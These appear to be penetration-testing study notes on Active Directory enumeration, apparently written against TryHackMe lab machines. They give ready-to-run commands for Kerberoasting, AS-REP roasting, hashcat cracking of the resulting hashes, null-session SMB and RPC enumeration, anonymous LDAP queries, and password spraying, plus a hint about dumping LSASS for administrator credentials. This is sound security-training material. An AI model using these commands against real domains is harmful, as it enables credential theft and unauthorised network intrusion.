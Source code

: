 # Active Directory Enumeration



## Important Ports

| 88  | Kerberos           | Potential for Kerberos-based enumeration      |
| --- | ------------------ | --------------------------------------------- |
| 135 | MS-RPC             | Potential for RPC enumeration (null sessions) |
| 139 | SMB/NetBIOS        | Legacy SMB access                             |
| 389 | LDAP               | LDAP queries to AD                            |
| 445 | SMB                | Modern SMB access, critical for enumeration   |
| 464 | Kerberos (kpasswd) | Password-related Kerberos service             |

## Authenticated Enumeration

### Kerberoasting

Requires access to Service Principal Name (SPN) accounts such as IIS user, MSSQL, etc. Involves requesting a TGT and TGS.

`python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.120.81 THM.red/thm` to find SPN accounts

`python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.120.81 THM.red/thm -request-user svc-user` to request a TGS ticket for the srv-users

Decrypt with hashcat using `13100` mode

### (Legacy) AS-REP Roasting

Relies on an old Kerberos authentication protocol. Technique that involves taking advantage of the timestamp validation (user's hash encrypts a timestamp, KDC decrypts it to verify user's identity) being skipped when pre-authentication is disabled. It instead returns an encrypted AS-REP blob without validating timestamp.

**Finding Vulnerable Accounts**

* `Rubeus.exe asreproast` on Windows
* `GetNPUsers.py tryhackme.loc/ -dc-ip 10.211.12.10 -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass` on Linux

**Exploitation, cracking password hashes and accessing network**

`hashcat -m 18200 hashes.txt wordlist.txt` crack AS-REP hashes (mode `18200` )

### SMB Relay Attack

Technique that abuses the NTLM authentication mechanism by performing an Man-in-the-Middle attack to monitor and capture SMB packets and extract hashes. (Note: **SMB signing, security check for integrity and ensures the communication is between trusted sources, must be disabled)**



### Manual Enumeration

Process of using shell and Powershell commands to explore token privileges and identifying domain and local users. This is a Living-Off-the-Land (LOTL) technique.

#### **Enumerating Users and Groups with NET commands**

`NET`  is a suite of commands for viewing and managing networked resources. **Best for quick checks on small, legacy domains.z**

`net user /domain` for viewing every user in the domain

`net user USERNAME /domain` to view a specific user in the domain

`net user` to view the local users

`net group /domain` to view domain groups

`net group GROUP_NAME /domain` to view users in groups

`net localgroup` to view local groups

#### Logged on User and Sessions

`query user`  to list user logged on to a machine

{% hint style="info" %}
Finding an Administrator logged into a machine is a big win because we can dump the LSASS to get their credentials or tokens.
{% endhint %}

#### Powershell Enumeration

`ActiveDirectory` module must be downloaded on the Workstations to use the following commands.

`Get-ADUser -Identity USERNAME` to check user details

* `-Properties *` to check ALL user’s properties, some important properties:
  * `LastLogonDate`
  * `MemberOf`
  * `Description`
  * `Title`
* `-Filter "Name -like '*admin*'"` to filter for admin

`Get-ADGroup -Filter *` to get all groups

`Get-ADGroupMember -Identity "Group Name"` to get all members in group

`Get-ADComputer -Filter *` to enumerate computers

`Get-ADDefaultDomainPasswordPolicy` to get password policy

#### Powerview&#x20;

Module that is part of the poweersploit framework.

`Get-DomainUser` to dump domains users

* `Get-DomainUser filter` to add filters
* `-AdminCount`  list of admin privileges accounts
* `-SPN` for non-null service principle names (SPN)

`Get-DomainGroup`

`Get-DomainComputer`

## Unauthenticated Enumeration

### Network Enumeration with SMB

SMB shares are usually hosted on the Domain Controller (DC).

`smbclient //TARGET_IP/SHARE_NAME OPTION` to access SMB shares (similar to FTP client)&#x20;

* `-L` to list the shares
* `-N` to access a share with no password
* `--user=USERNAME --password=PASSWORD` to specify authentication

`smbmap -H TARGET_IP` enumerate SMB shares across a host displaying read and write permissions

`nmap -p445 --script smb-enum-shares TARGET_IP` enumerate SMB shares across a host

`impacket-smbclient`, `crackmapexec`, `enum4linux` are other tools

{% hint style="info" %}
SMB shares can usually contain configuration and backup files, scripts and even documents that could have hidden secrets.
{% endhint %}

### Domain Enumeration

Some LDAP servers allow anonymous users to perform read-only queries.

`ldapsearch -x -H ldap://IP_ADDRESS -s base`&#x20;

* `-x` Simple authentication, in our case, anonymous authentication.
* `-H` Specifies the LDAP server.
* `-s` Limits the query only to the base object and does not search subtrees or children

`enum4linux-ng -A 10.211.11.10 -oA results.txt`  to automate enumeration techniques using SMB and RPC protocols

* `-A` Performs all available enumeration functions (users, groups, shares, password policy, RID cycling, OS information and NetBIOS information).
* `-oA` Writes output to YAML and JSON files.

#### Microsoft Remote Procedure Call (MSRPC)

Tool that enables a program running on one computer to request services from another computer over the SMB protocol. If the SMB server allows null sessions we can access the Inter-Process Communication (`IPC$`) allowing you to query directory information (usernames, groups, network shares...)

`rpcclient -U "" 10.211.11.10 -N` to access the `IPC$` share with no Username or `-N`  no password. Followed by `enumdomusers` to enumerate.

#### RID Cycling

`enum4linux-ng` allows us to enumerate these RIDs. If restricted we can also use a bash script that queries individual RIDs.

#### Username Enumerating with Kerbrute

Abuses the pre-authentication phase of the Kerberos authentication. Allows  you to avoid disabled accounts, non-domain accounts, fake honeypot users, and false positives

#### Password Spraying

Involves use a small set of common password tested across many account. Different approach than brute force as each account only tests a small set of password not every possible combination. To start this attack we must understand the Password Policy with `rpcclient` followed by `getdompwinfo` .'
